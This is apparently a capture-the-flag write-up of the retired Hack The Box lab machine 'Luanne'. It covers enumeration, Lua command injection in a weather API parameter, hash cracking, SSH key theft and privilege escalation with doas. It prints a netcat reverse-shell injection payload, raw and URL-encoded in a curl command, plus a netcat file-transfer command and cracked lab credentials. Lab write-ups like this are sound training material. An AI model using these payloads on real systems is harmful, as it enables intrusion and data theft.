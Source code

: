 ```yaml
---
title: "Luanne HTB Writeup"
date: 2021-03-27T09:20:04+02:00
draft: false
Tags: [
    "Writeups",
    "hackthebox",
]
---
```

![Machine Info](/images/luanne/1.png)

Luanne is an easy machine retired today ..
let's check it out.. enjoy...
## Methodology:
* Recon / Scanning Target
* Searching for Vulnerabilities - also understanding the target
* Gaining Access / Foothold 
* Maintaining Access
* Privilege escalation
* Reporting - (don't forget taking notes after each step)
---
# []()Enumeration:
  using nmap scan to see the open ports and the running services
* **nmap -sC -sV -oN 10.10.10.218**

```bash
Nmap scan report for **luanne.htb** (10.10.10.218)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.0 (NetBSD 20190418-hpn13v14-lpk; protocol 2.0)
| ssh-hostkey: 
|   3072 20:97:7f:6c:4a:6e:5d:20:cf:fd:a3:aa:a9:0d:37:db (RSA)
|   521 35:c3:29:e1:87:70:6d:73:74:b2:a9:a2:04:a9:66:69 (ECDSA)
|_  256 b3:bd:31:6d:cc:22:6b:18:ed:27:66:b4:a7:2a:e4:a5 (ED25519)
80/tcp   open  http    nginx 1.19.0
| http-auth: 
| HTTP/1.1 401 Unauthorized\x0D
|_  Basic realm=.
| http-robots.txt: 1 disallowed entry 
|_/weather
|_http-server-header: nginx/1.19.0
|_http-title: 401 Unauthorized
9001/tcp open  http    Medusa httpd 1.12 (Supervisor process manager)
| http-auth: 
| HTTP/1.1 401 Unauthorized\x0D
|_  Basic realm=default
|_http-server-header: Medusa/1.12
|_http-title: Error response
Service Info: OS: NetBSD; CPE: cpe:/o:netbsd:netbsd
```
There's a web server running on port 80:
![](/images/luanne/3.png)
* tried some default passwords, but didn't authorized access.
![](/images/luanne/4.png)
* also the nginx default page.
![](/images/luanne/5.png)

* **port 9001:**
![](/images/luanne/6.png)

* we noticed earlier a hostname (luanne.htb) .. we need to add it to our /etc/hosts file so we could access it.
![10.10.10.218	luanne.htb](/images/luanne/7.png)

* untill now nothing intersting showed up .. let's enumerate hidden directories:
* using Dirsearch:
```yml
python3 /home/sehs/dirsearch/dirsearch.py -u http://luanne.htb/ -e txt,html,php,log,zip,bac,bak,tar
```
![](/images/luanne/8.png)

found robots.txt file > this file tells the crawlers not to consider the paths inside it.. 
![found this /weather](/images/luanne/9.png)

so now let's see what's over there..
![](/images/luanne/10.png)

i also ran dirsearch again on the luanne.htb/weather >> but got nothing.
then i tried to search with the CVEs about nginx with version 1.9.0 and openssh but nothing usefull. so i turned back to enumeration.

This time using a bigger wordlist and gobuster.
### Gobuster:
* gobuster dir -u http://luanne.htb/weather -w /usr/share/dirb/wordlists/big.txt
![](/images/luanne/11.png)
![found this /forecast path](/images/luanne/12.png)
we could have used dirsearch too, but gobuster is faster in this case with bigger wordlists.

### Time for Web Enumeration:
* going to /weather/forecast:
![](/images/luanne/13.png)
* it says go to city=list >> so let's see /weather/forecast?city=list
![](/images/luanne/14.png)
![nothing really usefull. ](/images/luanne/15.png)

when tried single quote`` ' `` in the query, we got a lua error .. so now we knew that the backend language is lua.
![Lua error: /usr/local/webapi/weather.lua:49: attempt to call a nil value](/images/luanne/16.png)
* now we have to fix the query so we could try command injection
* after some tries this >> ``')--`` makes the query right (-- to comment in lua)
* so now if we made a command within it ``')os.execute('command')--`` > it works
---
## Gaining Access:
* of course it's time to put regular reverse shell payload ``os.execute('nc 10.10.x.x PORT -e /bin/bash')`` and open our netcat .. but it didn't work..
it's time for searching around:
* if you noticed earlier from nmap (the os is NetBSD) so maybe we should try netbsd reverse shell [payload](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#netcat-openbsd)
![netbsd payload](/images/luanne/18.png)
![](/images/luanne/17.png)
* now we need to combine both of those to make our payload
```java
');'os.execute("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.16.15 9001 >/tmp/f")'
```
and let's encode the payload
![](/images/luanne/19.png)
* note: [i got errors and the problem was in the () > their encoding %28 %29 ]
now let's do it again and the whole thing will be:
```
curl luanne.htb/weather/forecast?city=Leeds%27%29%3Bos.execute%28%22rm%2520%20%2Ftmp%2Ff%3Bmkfifo%20%2Ftmp%2Ff%3Bcat%20%2Ftmp%2Ff%7C%2Fbin%2Fsh%20-i%202%3E%261%7Cnc%2010.10.16.15%209001%20%3E%2Ftmp%2Ff%22%29--
```
![](/images/luanne/20.png)
![horay! we got our shell](/images/luanne/21.png)

* let's list what in there >> and we found some credential / hash
![](/images/luanne/22.png)

### Cracking the hash using john:
* put the hash inside file and run john on it using rockyou.txt wordlist
![](/images/luanne/23.png)
The creds >> **``webapi_user:iamthebest``** .. or type ``$john --show hash``
* now lets login with these creds:
![](/images/luanne/24.png)
![](/images/luanne/25.png)
nothing useful in there...
let's keep digging:
``netstat -ant`` to check network connections
![](/images/luanne/26.png)
``nc 127.0.0.1 3001`` to listen on the server
![](/images/luanne/27.png)
lets try curl: 
![also unauthorized](/images/luanne/28.png)
so lets try using our creds >>
``curl --user :iamthebest  http://127.0.0.1:3001``
![](/images/luanne/29.png)
* it worked fine .. now thinking of using this
![we 've got one user on the system called r.michaels](/images/luanne/30.png)
![trying to get ssh keys from .ssh/id_rsa](/images/luanne/31.png)
![trying to get user.txt](/images/luanne/32.png)
![and finally getting ssh keys from michaels home](/images/luanne/33.png)
* copy and save them to a file and ``chmod 400 id_rsa``
* ``ssh -i id_rsa r.michaels@luanne.htb``
![](/images/luanne/34.png)
---
## Privilege Escalation / Rooting:
![](/images/luanne/35.png)
from the first sight >> this backed up file ``devel_backup-2020-09-16.tar.gz.enc`` is catchy
* i took some time to crack its encoding .. then i thought of roaming around maybe it's not the solution .. i used LinPEAS.sh to search around
.. then i came back to it .. so i'll short it down for u and be straight forward in this ...
* you can transfer the file on your machine to work on it like this:
```ruby
On your server (A):
nc -l -p 1234 -q 1 > something.zip < /dev/null

On your "sender client" (B):
cat something.zip | nc server.ip.here 1234
```
* found these files and their extention so i thought they are related and searched on 'em:
![](/images/luanne/36.png)
![](/images/luanne/37.png)
![](/images/luanne/38.png)
* as u can see it seems that our backup file was encrypted using this 'netpgp' tool .. earlier i tried decompressing using openssl but it needed password.
* ``which netpgp`` >> gives its location '/usr/bin/netpgp' >> so we could use it to crack our file.
![](/images/luanne/39.png)
* Decryption:
```yml
/usr/bin/netpgp --decrypt filename --output=/path

/usr/bin/netpgp --decrypt devel_backup-2020-09-16.tar.gz.enc --output=/tmp/backup.tar.gz
```
![](/images/luanne/40.png)
* the file is being deleted so fast >> u 've to send it to your machine:
![](/images/luanne/41.png)
![](/images/luanne/42.png)
* To uncompress it >> ``tar xvzf backup.tar.gz`` 
* found a hash inside .htpasswd
![](/images/luanne/43.png)
* put the hash inside file to crack it with john
![](/images/luanne/44.png)
* cracking with john as before:
![](/images/luanne/45.png)
### creds: webapi_user:littlebear
* let's try switching into root and use the pass we got:
* when trying ``su root`` we got some error:
![](/images/luanne/46.png)
* after searching >> there is no su command in NetBsd systems, insteed its ``doas``
* you can check their [manual](https://man.netbsd.org/netpgb.1)
![](/images/luanne/47.png)
![](/images/luanne/48.png)
**rooted#**
* i hope you enjoyed..
* if so kindly give me respect [Wh1rlw1nd-HTB](https://www.hackthebox.eu/home/users/profile/182588)
* feel free to contact me for feedbacks or any help...



